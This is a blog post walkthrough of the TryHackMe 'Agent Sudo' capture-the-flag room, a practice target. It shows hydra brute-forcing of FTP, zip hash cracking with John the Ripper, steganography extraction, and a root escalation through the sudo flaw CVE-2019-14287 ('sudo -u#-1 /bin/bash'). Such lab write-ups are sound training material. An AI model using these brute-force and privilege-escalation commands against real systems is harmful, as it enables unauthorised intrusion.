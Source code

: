 ```yaml
---
layout: post
title: "TryHackMe - Agent Sudo"
author: "joona"
---
```


![](/images/agentsudo/agentsudo.jpg)
>You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

[Agent Sudo][AgentSudo] is an easy room on TryHackMe created by [DesKel][DesKel].<br/>
It includes some basic enumeration, brute-forcing and CTF methods such as steganography and hash cracking.
The privilege escalation is an interesting vulnerability in the `sudo` command.

### Nmap results<br/>
{% highlight plaintext %}
nmap -A -p- 10.10.53.38 -oA nmap
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
{% endhighlight %}
<br/>

### Website Enumeration
On the website at port 80 we have the following text:<br/>
{% highlight plaintext %}
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R
{% endhighlight %}

So the codename is probably a single letter, based on the signature, **Agent R**.<br/>
We are told to use this codename as the user-agent.<br/>

Since we don't know the codename, I used Burp Suite's Intruder to fuzz the correct user-agent.

![](/images/agentsudo/intruder.jpg)<br/>
From the results we can see that letters **R** and **C** gave a different size response that other letters.<br/>

With **User-agent: R** we have nothing interesting, just a warning that this incident will be reported.<br/>

With **User-agent: C** we get redirected to `/agent_C_attention.php` where we have a message:<br/>
{% highlight plaintext %}
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP.
Also, change your god damn password, is weak!

From,
Agent R
{% endhighlight %}

Now we have a username **chris** and it's supposed to have a weak password.
<br/><br/>

### FTP Enumeration
Let's try to brute-force our way into the FTP server with username **chris**.
>hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.53.38 -V -I

And we have a match: **crystal**<br/>

Logging in as chris to the FTP server we have three files:<br/>
- To_agentJ.txt
- cute-alien.jpg
- cutie.png

To_agentJ.txt:
{% highlight plaintext %}
Dear agent J,

All these alien like photos are fake!
Agent R stored the real picture inside your directory.
Your login password is somehow stored in the fake picture.
It shouldn't be a problem for you.

From,
Agent C
{% endhighlight %}
<br/>

### Hash Cracking and Brute-Force
Digging the images for clues, I found with `binwalk cutie.png` that there's a zip file inside it.<br/>
![](/images/agentsudo/cutie.jpg)

Trying to unzip it with `unzip cutie.png` we get an error message:<br/>
`skipping: To_agentR.txt           need PK compat. v5.1 (can do v4.6)`<br/>

I used **7zip**: `7z x cutie.png` to try and extract it but we get a password prompt.<br/>

We can use binwalk to extract the data: `binwalk -e cutie.png`. With this we get
a zip file **8702.zip**.

We can try to brute-force this with **John the Ripper**. First we need to process the
zip file into a format suitable for use with JtR. This can be done with **zip2john**.

{% highlight plaintext %}
zip2john 8702.zip > agent.zip
root@world:~/tryhackme/agentsudo# zip2john 8702.zip > zip.hash
ver 81.9 8702.zip/To_agentR.txt is not encrypted, or stored with non-handled compression type
root@world:~/tryhackme/agentsudod# john zip.hash
...
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
alien            (8702.zip/To_agentR.txt)
...
{% endhighlight %}

Now we can extract the file with 7zip and the password **alien**.

We get the file To_agentR.txt:
{% highlight plaintext %}
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
{% endhighlight %}

'QXJlYTUx' is base64:
{% highlight plaintext %}
root@world:~/tryhackme/agentsudo# echo -n 'QXJlYTUx' | base64 -d
Area51
{% endhighlight %}

Using this password to extract data from **cute-alien.jpg**:
{% highlight plaintext %}
root@world:~/tryhackme/agentsudo# steghide extract -sf cute-alien.jpg
Enter passphrase: Area51
wrote extracted data to "message.txt".
{% endhighlight %}

message.txt:
{% highlight plaintext %}
Hi james,

Glad you find this message. Your login password is hackerrules!
Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
{% endhighlight %}
<br/>

### User Flag & Privilege Escalation
Logging in SSH as **james** with the password **hackerrules!** we get the user_flag.txt and Alien_autospy.jpg.

The room name agent-sudo hints strongly to a Sudo vulnerability.<br/>
Checking the Sudo version with `sudo --version` we see that it's
`1.8.21p2`. Googling vulnerabilities for this version we find [CVE-2019-14287][CVE-2019-14287].
>The vulnerability exists in the implementation of the "sudo" application when processing commands that are configured to run with ALL keyword.<br/>
A local user with privileges to use sudo for specific applications on the system can escalate privileges and run the application as root (even if precisely restricted), if user id "-1" or "4294967295" is used.

So basically this requires that we have sudo right to run any command with ALL keyword. We can check this with `sudo -l`:
{% highlight plaintext %}
james@agent-sudo:~$ sudo -l
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
{% endhighlight %}

So now we can privesc with a simple command:
{% highlight plaintext %}
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# id
uid=0(root) gid=1000(james) groups=1000(james)
{% endhighlight %}

root.txt:
{% highlight plaintext %}
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe.
Tips, always update your machine.

Your flag is
~~censored~~

By,
DesKel a.k.a Agent R
{% endhighlight %}


[AgentSudo]: https://tryhackme.com/room/agentsudoctf
[DesKel]: https://tryhackme.com/p/DesKel
[CVE-2019-14287]: https://www.cybersecurity-help.cz/vdb/SB2019101501?affChecked=1
